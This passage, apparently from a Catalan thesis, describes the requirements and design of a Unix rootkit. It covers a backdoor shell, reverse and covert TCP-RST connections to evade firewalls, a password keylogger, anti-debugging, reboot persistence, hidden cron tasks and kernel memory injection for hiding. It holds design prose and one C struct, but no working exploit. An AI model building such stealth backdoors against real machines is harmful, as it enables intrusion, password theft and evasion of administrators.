Un cop tenim una idea més clara del problema al què es vol donar solució amb el projecte, ens cal entrar una mica més
detall en com es pot arribar a fer. Per aquest motiu tot seguit es defineixen les diferents funcionalitats 
que ens ha d'oferir el nostre rootkit. \\

Aquestes funcionalitats han estat separades segons els privilegis de què disposa el rootkit en el moment de ser
executat.

\section{Nivells de privilegis}

En la majoria de sistemes operatius actuals existeix una separació de privilegis entre usuaris. Hi
han diferents nivells d'usuari, tant usuaris molt restringits, com usuaris amb tots els privilegis
possibles. Els usuaris que disposen del màxim nivell de privilegis s'anomenen usuaris administradors. \\
Aquests usuaris acostumen a no tenir limitacions alhora de llançar accions a la màquina, i és per aquest
motiu, que un atacant sempre preferirà obtenir accés d'usuari administrador. \\

\section{Entorn no privilegiat} \label{sec:func-no-priv}

Aquestes són les funcionalitats que ens ofereix el rootkit quan s'executa com a \mbox{usuari no privilegiat}.

\subsection{Executable ELF estàtic}
Per tal de fer el més portable possible el nostre rootkit, i poder així ser executat en gairebé qualsevol sistema, ens 
interessa que aquest sigui estàtic. Això vol dir que el nostre rootkit incorporarà tot el codi necessari per tal de portar 
a terme totes les seves funcions i per tant podrà ser executat independentment de les llibreries i versions que es trobin a
les màquines. \\

Alhora, ens interessa que el format de l'executable sigui l'ELF, ja que aquest s'ha establert com l'estandard dintre
els sistemes operatius POSIX.

\subsection{Multiplataforma i multiarquitectura}
Tot i que el rootkit estigui basat per a ser executat en sistemes UNIX que compleixin l'estandard POSIX, un mateix sistema 
operatiu pot estar compilat per a ser executat sobre un processador de 32 o 64 bits, així com una arquitectura diferent
(intel, ARM, MIPS, etc). A part d'això, hi han moltes variants de sistema operatiu que provenen de UNIX com són  Linux, 
FreeBSD, NetBSD, Solaris, etc. És per aquest motiu, que la nostre intenció és que el rootkit suporti el reguitzell més gran 
possible d'arquitectures i variants de UNIX.

\subsection{Connexió directa}
Avui en dia, l'arquitectura de moltes aplicacions en xarxa és la de client-servidor, on el client estableix una connexió
amb el servidor, i a partir d'aquesta s'estableix una comunicació. Aquesta arquitectura ha de ser donana pel nostre rootkit. 
El rootkit ha de ser capaç d'obrir un port a la màquina, i quedar escoltant a l'espera de què el seu propietari s'hi connecti,
i així oferir-li un accés a la màquina.

\subsection{Obtenció d'una shell i un TTY}
A part del fet de permetre'ns la connexió, és molt important el típus de connexió que ens permet el rootkit. El més còmode, és que ens
ofereixi una connexió a una shell tipus bash\footnote{Actualment hi han molts tipus de shell com poden ser sh, ksh, dsh, etc. cada shell té les seves peculiaritats, però la més utilitzada degut a les comoditats que ofereix, és bash.}. A més, si ens l'ofereix a través d'un TTY\footnote{Un tty és un dispositiu anomenat terminal utilitzat per comunicar un programa amb la interfície de l'usuari que el manega.}, la podrem utilitzar juntament amb totes les eines
que ofereix l'intèrpret de comandes, com poden ser editors de text i altres aplicacions gràfiques.

\subsection{Mode comanda / Mode servei}
Tot i que la majoria de vegades ens acabarà interessant deixar el nostre rootkit corrent a la màquina com a servei, no sempre
és la funcionalitat que voldrem. Tal i com hem comentat en la definició del problema, quan estiguem en mig d'una intrusió, ens interessarà
executar comandes còmodament i per tant el rootkit ens ha d'ajudar en aquest moment concret. En aquest instant ja ens interessarà 
disposar d'una shell, transferir fitxers, etc, però només per acabar de realitzar la intrusió.

La funcionalitat que es vol mostrar en aquest punt, és la de poder utilitzar el rootkit com una comanda i no com a servei.

\subsection{Transferència de fitxers}
De la mateixa manera que ens interessa obtenir una shell a la màquina on tenim instal·lat el rootkit, també ens interessa
poder tenir total control sobre el sistema de fitxers, i per tant la possibilitat de pujar o descarregar fàcilment 
qualsevol fitxer que es trobi o que necessitem al disc.

\subsection{Comunicació xifrada}
Tota la comunicació entre la part servidor i la part client del rootkit es fà a través de la xarxa. Per tal d'ocultar al màxim 
tota aquesta comunicació i fer-la de la manera més segura possible, el nostre rootkit ha d'implementar algun algoritme de xifratge.

\subsection{Autenticació per contrasenya}
Per tal d'evitar que algú que sàpiga que tenim el rootkit instal·lat a una màquina s'hi connecti i el faci servir, voldrem
protegir-lo amb una contrasenya. Aquesta serà introduïda en el moment en què configurem el rootkit.

\subsection{Detecció del rootkit}
Una funcionalitat que ens pot interessar molt, és la de detectar si una màquina té instal·lat el rootkit tot i no saber-ne la contrasenya. 
D'aquesta manera podrem saber si encara hi ha el nostre rootkit instal·lat a màquines que hàgim infectat fa molt de temps. 

\subsection{Proteccions de l'executable}
Ens interessa protegir l'executable per si algú busca intencionadament entendre quin és el seu funcionament,
ho tingui el màxim de difícil possible. És per aquest motiu, que el rootkit incorpora tècniques per evitar
el desensamblat i la depuració.

\subsection{Supervivència del rootkit}
Un cop instal·lat el nostre rootkit, voldrem que cada vegada que la màquina es reiniciï, aquest es torni a executar. 
Aconseguir això ens serà més fàcil si el propi rootkit no permet múltiples execucions. El millor serà que en comptes
d'intentar llançar-lo només una vegada, ell mateix detecti que està en execució i en cas de estar-ho, acabi l'execució. \\

Si aconseguim això, podrem fer que el rootkit es llanci en diferents moments de l'arrancada, en el cas que algun dels mètodes
d'arrancada fallí, tindrem moltes probabilitats que el rootkit seguis sent executat en l'arranc. \\

També ens interessarà disposar de més d'un mètode per rearrancar el rootkit.

\subsection{Tasques programades}
És molt comú en entorns UNIX utilitzar el servei de cron per a realitzar tasques programades a hores o dies concrets. Ens interessa
poder executar tasques periòdiques a la màquina infectada sense que l'administrador de la màquina se n'adoni, per tant, ens anirà molt bé que 
el nostre rootkit ens implementi aquesta funcionalitat.

\subsection{Ocultació}
Com portem dient des del principi, un dels seus objectius principals, és estar ocult als ulls de l'administrador del sistema. Per aquest motiu el 
nostre rootkit ha d'estar el màxim ocult possible. Hem de intentar que no cridi gens l'atenció.

\subsection{Heartbeat}
Ens interessa que el rootkit ens estigui dient ``constantment'' que està actiu. D'aquesta manera podrem tenir un control de les diferents
màquines que tenim infectades, i si en algun moment en perdem alguna d'elles.

\subsection{Independència de la shell}
Per tal de tenir el mateix intèrpret de comandes independentment del sistema i així evitar sistemes de loggeig que s'acostumen a 
incorporar per defecte, ens interessa incorporar dintre el rootkit la nostra shell.

\subsection{Proxy socks}
Una altre funcionalitat interessant és poder utilitzar el nostre launcher com a proxy de les nostres connexions. D'aquesta manera
podrem fer servir una màquina amb el nostre rootkit, com a proxy de les nostres connexions que vulguem que passin desapercebudes.

\section{Entorn privilegiat}

\subsection{Connexió inversa}
De la mateixa manera que en la connexió directa el rootkit ha de permetre que la part client estableixi una connexió amb ell, en el cas de la connexió inversa, ha de ser el propi rootkit qui es connecti al client. D'aquesta manera, en sistemes on no estan permeses les connexions d'entrada a qualsevol port, però si ho estan les de sortida, el nostre rootkit ens permetrà connectar-nos còmodament.

\subsection{Tècniques per evitar firewalls i filtres}
Per tal de poder utilitzar el rootkit en configuracions de xarxa molt restrictives, aquest ha d'implementar diferents modes de connexió.
Aquests seran implementats a través d'un raw socket, i per tant caldrà executar-lo en mode privilegiat per fer-ne ús.

\subsection{Keylogger}
Molts dels cops que obtinguem accés de root, probablement serà a través d'algun bug. És per aquest motiu, que ens pot interessar molt
obtenir el password de root o d'altres usuaris vàlids del sistema. Aquests passwords els podrem obtenir en el moment que algun usuari
els escrigui en un teclat físic, o a través d'un pty gracies al keylogger que implementarà el rootkit.

\subsection{Injecció de codi en memòria del nucli}
Com s'ha comentat abans, els usuaris administradors acostumen a tenir accés total a la màquina, i poder realitzar gairebé qualsevol tasca.
Una de les coses que pot fer l'usuari administrador en un sistema Linux, és llegir i escrire directament a una posició de la
memòria del sistema. D'aquesta manera, es pot arribar a modificar la part de memòria que utilitza el sistema operatiu per funcionar,
obtenint així un control total sobre el sistema operatiu i podent ocultar tant com es vulgui el nostre rootkit.
Ens interessa que el nostre rootkit injecti codi en memòria del nucli per tal d'ocultar-se el màxim possible.






% Disseny de la sol.lució
\chapter{Disseny de la solució}

Per tal de complir els nostres objectius comentats en els punts anteriors, s'ha hagut de fer
un gran treball de planificació i disseny. En aquest capítol, s'intenta mostrar i justificar 
les principals decisions de disseny.

\section{Disseny general del rootkit}

L'arquitectura del rootkit és la de client-servidor. Això significa que hi ha una part que 
s'executa a una màquina que ofereix ``serveis'' (el servidor), i una part que sol·licita i
rep els serveix que ofereix l'altre. \\

A partir d'aquest moment anomenarem ``launcher'' a la part servidor del rootkit, i ``client''
a la part client. \\

En un cas típic, el launcher serà la part del rootkit que s'executarà a la màquina que haguem 
compromès, i el client serà la part que executarà l'atacant per tal de connectar-se al launcher. \\

Com a tot projecte de software, el disseny és una de les parts més importants, i per començar 
cal decidir quines característiques volem assolir. En aquest cas s'ha escollit la portabilitat, 
extensibilitat, llegibilitat i la no repetició de codi, com a característiques principals del 
nostre disseny. \\

\begin{figure}[htp]
    \centering
        
\includegraphics[scale=0.7,keepaspectratio]{diagrames/solutionDesignModules.pdf} \\
    \caption{Esquema dels diferents components que formen el rootkit}
    \label{fig:rootkitModules}
\end{figure}

\subsection{config}

En moment de compilació, el rootkit ens demana una sèrie de preguntes per tal de configurar-se a gust
de l'usuari, i per tal d'adaptar-se millor a unes característiques o a unes altres. Entre aquestes
preguntes, hi ha el password a utilitzar en la part servidora, si activar el mode debug, etc. Aquest
mòdul permet accedir a la configuració tant del launcher com del client.

\subsection{launcher}

Part nucli de la part servidor del rootkit. En aquesta part és on hi ha tota la estructura principal
de la part que s'instal·la a la màquina de la víctima.

\subsection{common}

Com el seu nom indica, és la part comuna entre mòduls, launcher i client.

\subsection{rc4}

Mòdul que ens permet xifrar la connexió utilitzant l'algoritme simètric rc4. Gràcies a aquest mòdul,
tota la informació que s'envia entre client i servidor, i client, és xifrada. 

\subsection{sha1}

Algoritme de hash utilitzat principalment per a obtenir un password d'una longitud fixa. En el moment
de compilació, el mòdul de configuració, sol·licita un password, aquest password haurà de ser especificat
per el client per tal de establir una connexió amb el launcher, i s'utilitzarà com a clau de xifratxe
de la comunicació.

\subsection{raw}

Mòdul que ens proporciona tota la funcionalitat del mode de funcionament raw. Tant la definició dels
paquets de xarxa, com les funcions dels diferents serveix necessaris.

\subsection{antidebug}

Mòdul que proveeix de les funcionalitats antidebug. Les diferents funcions que incorpora, són definides
com a inline, per tal que siguin incloses directament al codi.

\subsection{common}

Aquest mòdul incorpora les funcions genèriques més generals que utilitza el rootkit. És utilitzat tant per
el launcher, com per el client.

\subsection{keylogger}

És el mòdul que ens permet capturar passwords introduits en diferents serveis com poden ser ssh, ftp, mysql, etc.
\section{Modes de funcionament}

Tal i com hem vist en el capítol funcionalitats, aquestes varien segons els permisos que tinguem a la màquina 
i segons les nostres necessitats en cada moment. Per tal de poder escollir el comportament del rootkit,
s'han creat el què s'anomenen ``modes de funcionament''. 
Aquests modes defineixen les funcionalitats que podrem utilitzar i el com es podran utilitzar. Més endavant 
veurem que molt lligat a els modes de funcionament, tenim els modes de comunicació. Aquests també ens
permetran utilitzar unes funcionalitats o unes altres, sempre depenent dels permisos que disposarem. \\

El mode d'execució del rootkit, ve definit pel nombre de paràmetres que se li passen en el moment de ser
executat. Cal tenir en compte que en cap moment el launcher ens mostrarà una ajuda de quins paràmetres 
es poden utilitzar, ni cap missatge d'error. D'aquesta manera es garanteix que si mai és descobert i analitzat, 
aquest no ofereix cap pista als possibles analitzadors. \\

En total el launcher pot ser executat en tres modes: 

\begin{enumerate}
    \item Mode client
    \item Mode servidor no privilegiat
    \item Mode servidor privilegiat
\end{enumerate}

\subsection{Mode client} 

El mode client és un mode de funcionament en que per a ser utilitzat no és necessari cap permís especial. 
La idea d'aquest mode de funcionament, és llançar el rootkit, sense la intenció de tenir un servei corrent
a la màquina, sinó amb la intenció de disposar d'una funcionalitat en un moment concret. \\

En aquest mode, el launcher establirà una connexió TCP cap al client a la ip i port especificats per la línia
de comandes. Un cop establerta la comunicació, el client (que ha d'estar esperant la connexió del launcher), 
li transmetrà l'acció a executar, i aquest la portarà a terme. Un cop acabada l'acció, el launcher acabarà
i es desconnectarà del client. \\

\begin{figure}[htp]
    \centering
    
\includegraphics[scale=1,keepaspectratio]{diagrames/solutionDesignClientMode.pdf} \\
    \caption{Esquema del mode client}
    \label{fig:modeClient}
\end{figure}

Com veiem, en aquest mode el launcher i el client es canvien els papers, sent el launcher qui inicia una connexió 
cap al client. Aquest fet és el què li dona el nom al mode de funcionament. \\

Aquest mode de funcionament és molt interessant per el moment de la intrusió quan ja som capaços d'executar
comandes a la màquina. Evidentment per a poder fer ús d'aquest mode, cal que prèviament deixem el launxer 
a la màquina en qüestió. \\

Un cop fem això, el rootkit ens permetrà obtenir una shell enganxada a un TTY per tal de poder treballar 
còmodament, fer servir la màquina remota com a proxy SOCKS, així com pujar o baixar fitxers. Tenint en compte
que un cop acabi la connexió amb el rootkit, aquest haurà de tornar a ser llançat per a poder executar una següent
tasca. \\

\subsection{Mode servidor no privilegiat}

Aquest mode de funcionament no requereix de més privilegis que el mode client, però en aquest cas, si que
tindrem un servei executant-se a la màquina. \\

El fet de disposar d'un servei en constant execució o no, és la principal diferència entre el mode servidor
no privilegiat, i el mode client. En aquest mode, tindrem el launcher escoltant a un port TCP esperant que
el client es connecti per a sol·licitar una acció. \\

Aquest mode té l'inconvenient que en un entorn en què tinguem algun firewall, molt probablement, no ens 
servirà de res ja que les connexions cap al port del nostre launcher, molt probablement no estaran permeses. \\

\begin{figure}[htp]
    \centering
    
\includegraphics[scale=1,keepaspectratio]{diagrames/solutionDesignUnprivilegedServerMode.pdf} \\
    \caption{Esquema del mode servidor no privilegiat}
    \label{fig:modeUnprivilegedServer}
\end{figure}

\subsection{Mode servidor privilegiat}

El mode servidor privilegiat, és el mode que requereix de permisos d'administrador, i que alhora ens permetrà
fer ús de les característiques mes avançades del rootkit. \\

La principal diferència entre aquest mode de funcionament, és que al disposar de permisos d'administrador a
la màquina, podem realitzar tasques molt més avançades. Entre elles, tenim la possibilitat d'implementar 
sniffers a nivell d'aplicació per tal de poder capturar passwords, o el fet de poder utilitzar RAW sockets que
ens permetran utilitzar diferents modes de comunicació (se'n comenta el disseny més endavant), per tal de 
saltar-se la majoria de configuracions de firewall. \\

Per tots aquests motius, sempre que sigui possible ens interessarà utilitzar el rootkit en aquest mode. \\

El funcionament del rootkit quan s'està executant en mode privilegiat, varia depenent el tipus de connexió
que prefereix realitzar el client en aquell moment. Més endavant quan s'expliquen els modes de comunicació disponibles
en aquest mode (figures \ref{fig:modePrivilegedServerREV} i \ref{fig:modePrivilegedServerREV}), es detalla el seu funcionament. \\

\section{Modes de comunicació}

Tal i com hem comentat anteriorment, els modes de comunicació depenen directament dels permisos que tindrem 
a la màquina. Principalment per aquest motiu, s'han fet dependre dels modes de funcionament, és a dir, segons el
mode de funcionament, podrem utilitzar uns modes de comunicació o uns altres. \\

El rootkit implementa diferents modes de comunicació, alguns ens permeten establir connexions totalment
ocultes i arribar a sobrepassar configuracions de xarxa molt restrictives. Poder utilitzar un protocol de 
comunicació o un altre, dependrà del mode de funcionament en què hàgim arrancat el rootkit. És per aquest
motiu, que el mode de comunicació anirà molt lligat al mode de funcionament. \\

En total tenim quatre modes de comunicació. \\

\begin{enumerate}
    \item TCP
    \item REV
    \item RAW
    \item LISTEN
\end{enumerate}

La següent taula mostra quins modes de comunicació es poden utilitzar en cada mode de funcionament:

\begin{figure}[htp]
    \centering
    \begin{tabular}{|c|c|c|c|}
        \hline
               & \textbf{Client} & \textbf{Servidor no privilegiat} & \textbf{Servidor privilegiat} \\ \hline
        TCP    & \textcolor{Red}{No}   & \textcolor{Green}{Si} & \textcolor{Red}{No}  \\ \hline
        REV    & \textcolor{Red}{No}   & \textcolor{Red}{No}   & \textcolor{Green}{Si}  \\ \hline
        RAW    & \textcolor{Red}{No}   & \textcolor{Red}{No}   & \textcolor{Green}{Si}  \\ \hline
        LISTEN & \textcolor{Green}{Si} & \textcolor{Red}{No}   & \textcolor{Red}{No}    \\ \hline
    \end{tabular}
    \caption{Modes de comunicació disponibles segons el mode d'execució.}
    \label{fig:tableModesRelation}
\end{figure}

\subsection{TCP}

Aquest mode de comunicació, és utilitzat només en el cas en què el client vulgui connectar-se a un launcher que
s'ha executat en mode servidor no privilegiat. \\

El protocol de comunicació (figura \ref{fig:modeUnprivilegedServer}) en aquest cas és: \\

\begin{enumerate}
    \item El client estableix una connexió TCP amb a la màquina i port on està escoltant el launcher
    \item El client envia un paquet autenticat cap al launcher, especificant-li l'acció a portar a terme
    \item El launcher efectua l'acció, utilitzant la mateixa connexió ja establerta per a comunicar-se
\end{enumerate}

\subsection{REV}

Aquest mode de comunicació, es pot utilitzar només en el cas d'haver llançat el launcher en mode privilegiat.
El nom de REV, prové de la idea principal del mode de comunicació que és l'ús d'una comunicació reversa on 
és el client qui (a través d'un port ja obert en la màquina), sol·licita que el rootkit es connecti cap a ell. \\

El protocol de comunicació és el següent: \\

\begin{figure}[htp]
    \centering
    
\includegraphics[scale=1,keepaspectratio]{diagrames/solutionDesignPrivilegedServerModeREV.pdf} \\
    \caption{Esquema del mode de connexió revers}
    \label{fig:modePrivilegedServerREV}
\end{figure}

\begin{enumerate}
    \item El client obre un servei que es queda escoltant a un port esperant la connexió del launcher.
    \item El client llança un procés fill que es connecta a un port TCP qualsevol de la màquina on s'està 
        executant el rootkit. Aquest port ha d'haver estat obert per qualsevol altre servei del sistema (per 
        exemple el típic servei web).
    \item El client envia un paquet autenticat través d'aquesta connexió. Aquest paquet serà probablement  
        descartat pel servei al no ser un paquet que compleixi el protocol del servei, però serà detectat per
        part del rootkit.
    \item El rootkit detectarà i comprovarà el paquet, i en cas de ser vàlid, establirà una connexió TCP cap 
        al client.
    \item Un cop establerta la connexió amb el client, s'utilitzarà aquesta per tal d'efectuar l'operació 
        demandada.
\end{enumerate}

Els principals avantatges son: \\

\begin{itemize}
    \item La comunicació entre launcher i client és molt fiable i és provable que sobrepassi la majoria de 
        configuracions de xarxa d'una manera totalment vàlida.
    \item Per executar el client, no necessitem permisos de superusuari.
\end{itemize}

Els principals desavantatges són: \\

\begin{itemize}
    \item El primer és que requerim que la màquina disposi d'alguna aplicació que escolti en algun port 
        TCP. Tot i que això no acostuma a ser difícil, hi han casos en què no és així.
    \item El segon és que un cop el rootkit ha establer la connexió TCP amb el client, aquesta connexió
        apareix en el llistat de connexions establertes de la màquina, i en segons quina màquina, això
        pot ser molt sospitós per a l'administrador.
\end{itemize}

Per tal d'utilitzar aquest mode de comunicació, cal que la màquina on s'executa el client, tingui almenys
un port de la ip pública, assignat a ella, de manera que sigui possible lo comunicació directe des de fora
la xarxa local. En configuracions personals com una línia ADSL amb router, caldria que el router de la màquina
on l'executés el client, tingués un ``port obert'' (un port amb DNAT) per tal que el rootkit es pogués 
connectar a ell. Aquest requisit també existeix en els següents modes de comunicació (RAW i LISTEN). \\

\subsection{RAW}

Igual que en el cas anterior, aquest mode de comunicació només pot ser utilitzat en cas d'haver llançat el launcher
en mode privilegiat. \\

Per tal d'implementar aquest mode de comunicació, s'ha hagut d'implementar un protocol de capa de transport 
compatible amb el subset de paquets vàlids pel protocol TCP (documentat més endavant). D'aquesta manera s'ha 
aconseguit poder transmetre per internet paquets TCP vàlids, que a nivell de sessió són aparentment invàlids. 
Com que tots aquests paquets són entregats a la màquina, el nostre rootkit és capaç d'interpretar-los i 
respondre obtenint com a resultat un protocol de comunicació invisible per el nucli del sistema operatiu. \\

Fer tot això, ens aporta principalment dos avantatges: \\

\begin{enumerate}
    \item Que les connexions establertes utilitzant aquest mode, són gairebé invisibles (caldria analitzar els
        diferents paquets de xarxa per detectar una connexió d'aquest tipus)
    \item Que no necessitem tenir cap aplicació escoltant a un port per tal de comunicar-nos amb el launcher.
\end{enumerate}

El nom de mode de comunicació RAW, prové del tipus de socket que ens permet implementar tot això (RAW socket),
i el seu funcionament és el següent: \\

\begin{figure}[htp]
    \centering
    
\includegraphics[scale=1,keepaspectratio]{diagrames/solutionDesignPrivilegedServerModeRAW.pdf} \\
    \caption{Esquema del mode de connexió revers}
    \label{fig:modePrivilegedServerRAW}
\end{figure}

\begin{enumerate}
    \item Primer de tot, el client inicialitza un socket RAW per tal de comunicar-se amb el launcher.
    \item El client crea un procés per tal d'enviar envia el paquet d'autenticació a la màquina i port escollits,
        i espera que el launcher li respongui.
    \item Un cop el launcher rep el paquet, comprova si el paquet és d'alguna connexió existent, i si no
        ho és, crea un altre procés destinat als enviaments de paquets cap al client. Alhora, comença a
        processar l'acció que li ha sol·licitat el client, tot utilitzant els paràmetres rebuts per a la 
        comunicació.
    \item En el moment que el client rep una resposta del launcher, comença a processar l'acció tenint
        ja la connexió establerta.
\end{enumerate}

\subsection{LISTEN}

Aquest mode de comunicació és el què s'utilitza amb el mode de funcionament client, i no requereix de permisos
especials per tal de ser utilitzat. En aquest cas, el client obre un servei per tal d'esperar la connexió del 
launcher.  \\

Es pot veure l'esquema en la figura \ref{fig:modeClient} \\

En el moment en què el client rep la connexió del launcher, aquest li sol·licita una acció en concret a executar
i passa a utilitzar la connexió establerta per a efectuar l'acció. \\

\section{Protocol de comunicació RAW}

L'objectiu de crear un protocol propi de comunicació, era aconseguir comunicar el client i el launcher per
internet sense que les utilitats del sistema operatiu per visualitzar les connexions de xarxa establertes
s'adonessin de les connexions entre launcher i client. En definitiva, l'objectiu és aconseguir passar més 
desapercebuts. \\

Per tal de poder aconseguir això i establir una comunicació a través d'internet, calia utilitzar un subset de 
paquets IP vàlids per a tota l'electrònica de xarxa que hi ha a internet. Per aquest motiu, es va escollir
utilitzar paquets vàlids del protocol TCP, però que són invàlids ja que fan referència a una sessió inexistent.
A més, per tal de afavorir que els paquets eren entregats, aquests eren enviats amb el flag de RESET activat. 
Aquesta peculiaritat fa que en alguns firewalls de baixa qualitat configurats amb una política de restricció de 
tots els paquets entrants menys els paquets que formen part d'una connexió ja establerta, detectin que el paquet
fa referència a una connexió ja establerta\footnote{Molts d'aquests firewalls, només afegeixen una regla denegant
els paquets amb el flag SYN, ja que només intenten denegar el inici d'una connexió TCP.} i el deixin passar. \\

Cal dir que aquest protocol es podria millorar força tot afegint algoritmes de control i retransmissió. Actualment
el nostre protocol de comunicació RAW, es podria dir que només ofereix les característiques del protocol UDP
\footnote{El protocol UDP és un protocol de transmissió que permet l'enviament de dades sense haver d'iniciar una 
sessió. Les dades enviades utilitzant aquest protocol, no són confirmades per el receptor i per tant la comprobació
s'ha de fer a nivell d'aplicació.}. Més endavant en el capítol solucions, s'explica amb tot detall el seu funcionament. \\

Els paquets transmesos per la xarxa segueixen aquesta estructura: \\

\begin{figure}[htp]
    \centering
    
\includegraphics[scale=1,keepaspectratio]{diagrames/solutionDesignPacketStructure.pdf} \\
    \caption{Esquema d'un paquet RAW}
    \label{fig:packetScheme}
\end{figure}

En definitiva són paquets TCP amb el flag RESET activat, i una estructura de dades que detallem a continuació.

\subsection{Paquet de comunicació}

La següent estructura, s'utilitza en dos casos diferenciats:
\begin{itemize}
    \item L'enviament de paquets de control.
    \item L'enviament de paquets d'una connexió RAW.
\end{itemize}

Els paquets de control, són tots aquells que sol·liciten realitzar una acció tant del client al launcher, com a l'inrevés.
Els d'una connexió RAW són els comentats en el punt anterior.

El fet de que el client sol·liciti una acció al launcher, implica l'enviament d'un paquet de control del client sol·licitant
la realització d'una acció. 

\begin{Verbatim}[commandchars=@\[\]]
@PYay[struct] data {
    @PYaJ[unsigned] @PYaJ[char] pass@PYZlb[]@PYag[20]@PYZrb[];
    @PYaJ[unsigned] @PYaJ[char] action;
    @PYaJ[unsigned] @PYaJ[short] port;
    @PYaJ[unsigned] @PYaJ[long] size;
    @PYaJ[unsigned] @PYaJ[char] bytes@PYZlb[]BUFSIZE@PYZrb[];
} __attribute__ ((packed));
\end{Verbatim}

Podem veure que aquesta estructura conté un array de 20 bytes anomenat pass. És en aquest camp on tant el launcher
com el client s'han d'autenticar l'un amb l'altre, és a dir, tant el launcher ha de conèixer el password que ha introduït 
el client, com el client el client ha de conèixer el password amb el què va estar compilat el launcher.\\

Pel què fa als altres paràmetres, ``action'' fa referència a la acció\footnote{Es pot 
veure aquest camp, com el camp que especifica com ha de fer servir el valor dels altres pàmetres.}, ``port'' al port a 
utilitzar, ``size'' al nombre de bytes utiiltzats en el buffer ``bytes''.



